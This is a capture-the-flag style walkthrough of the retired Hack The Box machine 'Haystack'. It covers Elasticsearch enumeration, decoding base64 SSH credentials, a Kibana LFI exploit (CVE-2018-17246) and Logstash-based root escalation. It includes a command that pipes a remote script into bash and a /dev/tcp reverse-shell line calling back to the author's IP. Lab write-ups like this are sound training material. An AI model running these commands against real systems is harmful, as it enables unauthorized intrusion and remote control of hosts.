

# Haystack

This is the write-up for the box Haystack that got retired at the 2nd November 2019.
My IP address was 10.10.14.40 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.115    haystack.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haystack.nmap 10.10.10.115
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods:
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
```

## Checking HTTP (Port 80)

On the web page there is an image of a needle in a haystack and nothing interesting in the source code.

## Checking HTTP (Port 9200)

On the web page on port 9200 there is some kind of API where it shows data in JSON format:



The clustername indicates that there is an **Elasticsearch** service installed on the server.
When looking at the [Elasticsearch Reference](https://www.elastic.co/guide/en/elasticsearch/reference/6.4/index.html) at the _Document APIs_ and _cat APIs_, we can get some information about this application with those methods.

Basic usage of the _cat_ command:
```markdown
curl http://10.10.10.115:9200/_cat/master?v
```

This outputs some general master information but we can look for more information by only typing in the _cat_ command.
Lets look at the indices:
```markdown
curl http://10.10.10.115:9200/_cat/indices?v

# Output
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
```

We can look inside the index _quotes_ with the following request. I use `jq` to make the JSON output more readable:
```markdown
curl http://10.10.10.115:9200/quotes/_search | jq .
```

This outputs a bunch of Spanish texts. Before working with those, it would be practical to only display the quote values and filter out the other JSON key-value pairs.
```markdown
curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .\_source .quote'
```

Now we get only the Spanish quotes from all 253 documents.

### Analyzing the Spanish quotes

To make sense of the Spanish strings, we should send them to a translation service.
For this task, I wrote a Python script that can be found in this repository.
```markdown
python3 haystack_quotes.py | tee quotes-translated.txt
```

After executing this script, it translates all the quotes to English and we can put this into a file to search for interesting results.
```markdown
cat quotes-translated.txt | grep -i password
cat quotes-translated.txt | grep -i secret
cat quotes-translated.txt | grep -i key
```

The word _key_ finds something interesting:
```markdown
This key can not miss, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk =
I have to keep the key to the machine: dXNlcjogc2VjdXJpdHkg
```

These strings look like **Base64** so lets decode them:
```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk' | base64 -d

# Output
user: security
```

```markdown
echo 'cGFzczogc3BhbmlzaC5pcy5rZXk=' | base64 -d

# Output
pass: spanish.is.key
```

The only login we know of is **SSH**, so lets try to log in with the user _security_ and the password _spanish.is.key_ there:
```markdown
ssh security@10.10.10.115
```

This works and we are logged in on the box as the user _security_.

## Privilege Escalation

We should run any **Linux Enumeration script** on the box to get an attack surface:
```markdown
curl 10.10.14.40:8000/LinEnum.sh | bash
```

After analyzing the output, we have the following information:
- There are groups called _kibana_, _logstash_ and _elasticsearch_
- The box is listening on port 5601 on 127.0.0.1

So this means that there is an **ELK Stack** installed on the box.
By default **Kibana** runs on port 5601 and we can verify that by requesting the HTTP page:
```markdown
curl 127.0.0.1:5601
```

With **SSH port forwarding** it is possible to connect to the service from our local client.

### SSH Port forwarding

With the shortcut `~C` the shell starts the ssh command prompt.
In here we can set up the port forwarding:
```markdown
ssh> -L 5602:127.0.0.1:5601
```

This opens port _5602_ on my local client and forwards the service from port _5601_ through the SSH session.
Now we can access the **Kibana** service on our local client.
```markdown
http://localhost:5602
```

### Exploiting Kibana

On _Management_ it shows that this is version 6.4.2 which is from October 2018 and could have some vulnerabilities.
After researching for vulnerabilities, there is this [Local File Inclusion](https://github.com/mpgn/CVE-2018-17246) with a script that can execute a reverse shell on the server.

Lets create a file on the box called _rev.js_ and modify the script to connect to our IP address and then exploit the LFI by requesting the described path:
```markdown
curl 'http://localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/rev.js'
```

The listener on my IP and port 1337 starts a reverse shell as the user _kibana_.

### Privilege Escalation to root

The files in _/etc/logstash_ are owned by the user root and the group _kibana_ with read permissions.
In _/etc/logstash/conf.d_ there are the configuration files for **Logstash**:
```markdown
# input.conf

input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

```markdown
# filter.conf

filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

```markdown
# output.conf

output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

We need to create a file called _/opt/kibana/logstash*_ that will be executed.
The string from the filter has to be in that file.

I call the file _logstash_test_ and it has the following contents:
```markdown
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.40/9001 0>&1
```

After a while the listener on my IP and port 9001 starts a reverse shell connection as root!
